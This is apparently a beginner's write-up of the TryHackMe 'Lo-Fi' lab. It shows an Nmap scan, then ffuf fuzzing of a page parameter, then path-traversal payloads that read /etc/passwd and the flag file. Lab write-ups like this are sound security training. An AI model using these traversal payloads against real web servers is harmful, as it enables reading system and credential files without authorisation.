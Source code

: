 ```yaml
---
title: Lo-Fi - cmnatic
date: 2025-02-09 11:27:10 -5000
categories: [THM,Easy,Linux]
tags: [Web,LFI,Misconfiguration,Reconnaissance]
---
```


Want to hear some lo-fi beats, to relax or study to? We've got you covered!

![Lo-Fi.png](Assets/Pictures/Lo-Fi/Lo-Fi.png)

The Lo-Fi Room on TryHackMe is an easy-level challenge focused on Local File Inclusion (LFI). This vulnerability allows an attacker to read files on the server, potentially exposing sensitive information. For example, accessing `/etc/passwd` could reveal system user details.

In this walkthrough, we’ll explore the basics of LFI, understand how it works, and exploit it to retrieve important files. Let’s dive in and start solving the room!

### Intelligence Gathering
First, we analyzed the room description and discovered some valuable hints. These clues provided insights into potential vulnerabilities and guided our approach to exploiting the Local File Inclusion (LFI) flaw. By carefully examining the information given, we were able to identify key entry points for further investigation.
![image description](Assets/Pictures/Lo-Fi/Hints.png)

Now, we begin with an Nmap scan to identify open ports and running services on the target machine. This step helps us understand the attack surface and determine potential entry points for exploitation. Let’s run the scan and analyze the results!

### Nmap Scan
````bash
┌──(Cyb3rWo9f㉿v0ids3ek3r)-[/TryHackMe/Lo-Fi]
└─$ nmap -sC -sV -T4 lo-fi.thm
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-10 16:23 IST
Nmap scan report for lo-fi.thm
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c7:49:c9:93:76:e5:e8:82:16:61:62:a4:d2:d4:16:48 (RSA)
|   256 7e:87:ae:79:e1:8c:da:45:e5:93:e4:f0:8b:4f:2a:ce (ECDSA)
|_  256 45:57:16:13:31:26:fb:ea:45:94:1f:86:27:71:c4:f3 (ED25519)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Lo-Fi Music
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.62 seconds
````
From our Nmap scan, we discovered that two ports are open:
- Port 22 – Running SSH, which could be useful for remote access if we find valid credentials.
- Port 80 – Hosting a web server, making it our primary target for further investigation.

Since the challenge revolves around Local File Inclusion (LFI), we’ll focus on exploring the web application.
![image description](Assets/Pictures/Lo-Fi/web.png)

Everything seemed normal at first, but upon exploring the Discography section, we clicked on "Relax" and noticed something interesting. The URL contained a page parameter, formatted as: `http://lo-fi.thm/?page=relax.php`
![image description](Assets/Pictures/Lo-Fi/page-parameter.png)

When i replaced relax.php with /etc/passwd in the page parameter: `http://lo-fi.thm/?page=/etc/passwd`
Instead of displaying the file contents, i met with a warning message:

- HACKKERRR!! HACKER DETECTED. STOP HACKING YOU STINKIN HACKER!

![image description](Assets/Pictures/Lo-Fi/warn-message.png)

This response indicates that the server has some basic detection mechanisms in place, but it doesn’t appear to be properly filtering Local File Inclusion (LFI) attempts. Instead of blocking LFI outright, it's likely checking for direct access to system files.
To bypass this restriction, we need to perform directory traversal using techniques like `../../../../etc/passwd` to navigate through the file system and retrieve the target files.

To perform directory traversal, i will use fuzzing techniques to identify potential bypasses. Specifically, i’ll leverage FFUF (Fast File Fuzzer) along with LFI wordlists to automate testing various traversal payloads.
- By crafting payloads like: `http://lo-fi.thm/?page=FUZZ`

### Fuzzing
````bash
┌──(Cyb3rWo9f㉿v0ids3ek3r)-[/TryHackMe/Lo-Fi]
└─$ ffuf -w "/usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt" -u "http://lo-fi.thm/?page=FUZZ" -fl 124

../../../etc/passwd     [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 185ms]
../../../../etc/passwd  [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 185ms]
````

Now, i will attempt to access `/etc/passwd` by replacing the page parameter with result payloads.
![image description](Assets/Pictures/Lo-Fi/etc-passwd.png)
i successfully bypassed the restrictions and gained access to the `/etc/passwd` file.
 - This confirms that the application is vulnerable to Local File Inclusion (LFI), allowing us to read sensitive system files.

### Flag
![image description](Assets/Pictures/Lo-Fi/flag.txt.png)
By replacing `/etc/passwd` with `flag.txt` in the page parameter
we successfully accessed the flag and completed the `Lo-Fi` room!
![image description](Assets/Pictures/Lo-Fi/lofi-solved.png)

### Happy hacking !
- This was my first write-up — i hope you found it helpful!

Here are some resources:
* [https://www.geeksforgeeks.org/local-file-inclusion-lfi/](https://www.geeksforgeeks.org/local-file-inclusion-lfi/)
* [https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html)